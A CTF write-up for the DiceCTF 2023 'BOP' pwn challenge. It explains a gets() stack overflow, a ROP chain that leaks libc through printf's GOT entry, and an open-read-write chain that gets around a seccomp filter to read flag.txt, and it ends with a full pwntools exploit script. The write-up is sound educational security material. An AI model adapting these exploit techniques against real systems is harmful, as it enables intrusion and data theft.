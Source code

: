 ```yaml
---
title: "Dice '23: BOP"
style: border
color: danger
comments: true
description: dice ctf web seccomp rop challenge
tags: CTF Pwn
---
```

# BOP
This is write-up for BOP.

The source code of main is as follows:
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  printf("Do you bop? ");
  return gets(v4);
}
```

The last line of main calls gets to receive inputs to a buffer and returns using gets' return value.

Running checksec gives:
```bash    
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
And we can verify that the binary uses seccomp tools:
```bash
# seccomp-tools dump ./bop                                                                                   [±PIE ●]
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 ```

## Attack Plan
We can control the return address and perform ORW (Open Read Write) using ROP.
I've done ORW from [pwnable.tw](https://pwnable.tw/challenge/#2) using shellcoding but it was my first time using ROP, but the logic remains the same. It's just a matter of syntax.
## Pre-requisite
To perform ROP, we need to leak the libc base.
The GOT does not import puts, so I'll use printf.
The ROP payload to leak GOT entry of printf is as follows:
```python
payload = b"A"*40 # offset
payload += p64(ret)
payload += p64(ret)
payload += p64(rdi)             # 1st parameter
payload += p64(e.got['printf'])
payload += p64(rsi)             # 2nd parameter (two pops)
payload += p64(e.got['printf'])
payload += p64(e.got['printf'])
payload += p64(e.plt['printf']) # call printf_plt
payload += p64(ret)
payload += p64(main) # return to main
```
The first two rets are to align bytes. 0 or 1 ret doesn't work (idk why).
The pop_rsi gadget I found pops to two registers, so I included two printf_got entries after pop_rsi.

## ORW
Using the leaked libc base, we can find other useful gadgets like pop_rax, pop_rdx, and syscall.

note: *make sure to find the stable syscall instruction, like read+0x10.*

We can run ROP again but now invoking ORW.
To store the contents of the file read, I'll use bss+0x800 (no special reason).

The payload is as follows:
```python
"""OPEN"""
payload = b"A"*40
payload += p64(rdi) + p64(bss+0x800)
payload += p64(e.plt["gets"])
payload += p64(rdi)+p64(bss+0x800)
payload += p64(rsi) + p64(0) + p64(0)
payload += p64(rdx) + p64(0) 
payload += p64(rax) + p64(2)
payload += p64(syscall)

"""READ"""
payload += p64(rdi)+p64(3)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(0) 
payload += p64(rdx)+p64(0xff) 
payload += p64(syscall)

"""WRITE"""
payload += p64(rdi)+p64(1)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(1) 
payload += p64(rdx)+p64(0xff)
payload += p64(syscall)
```

We follow the standard [x64 syscall convention](https://syscalls64.paolostivanin.com/) to set the parameters of each component of ORW.

* set rdi to bss to store user input
* call gets
After user sends an input, it will be stored in BSS, in this case it will be "./flag.txt".
* set rdi to bss again
* set rsi (two pops) and rdx to 0
* set rax to 2
* syscall

Similar procedures are performed for Open and Write syscalls.
note: *cross compare with x64 syscall chart!*

### End
Then I send the payload along with "./flag.txt" and receive the output to get the flag.

```python
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

p=process('./bop',env={'LD_PRELOAD':'./libc-2.31.so'})
# p = remote("mc.ax", 30284)
libc=ELF("./libc-2.31.so")

ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)

e = ELF("./bop")
rdi = 0x4013d3
ret = 0x40101a
main = 0x4012fd
bss = 0x404080
rsi = 0x4013d1 # pop rsi; pop r15; ret

payload = b"A"*8
payload += b"/flag.txt\0"
payload += b"A"*22
payload += p64(ret)
payload += p64(ret)
payload += p64(rdi)
payload += p64(e.got['printf'])
payload += p64(rsi)
payload += p64(e.got['printf'])
payload += p64(e.got['printf'])
payload += p64(e.plt['printf'])
payload += p64(ret)
payload += p64(main)

sla(b"? ", payload)


leak = u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
libc.address = leak - 0x60770 - 0x46a0 + 0x3180
info(str(hex(libc.address)))

syscall = libc.sym['read']+0x10
rax = libc.address+0x036174
rdx = libc.address+0x142c92

payload = b"A"*40
payload += p64(rdi) + p64(bss+0x800)
payload += p64(e.plt["gets"])
payload += p64(rdi)+p64(bss+0x800)
payload += p64(rsi) + p64(0) + p64(0)
payload += p64(rdx) + p64(0) 
payload += p64(rax) + p64(2)
payload += p64(syscall)

payload += p64(rdi)+p64(3)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(0) 
payload += p64(rdx)+p64(0xff) 
payload += p64(syscall)

payload += p64(rdi)+p64(1)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(1) 
payload += p64(rdx)+p64(0xff)
payload += p64(syscall)

sla(b"? ", payload)
input() # press enter
sl(b"./flag.txt\0")

print(p.recv(1024))

p.interactive()
```
Thanks,
079
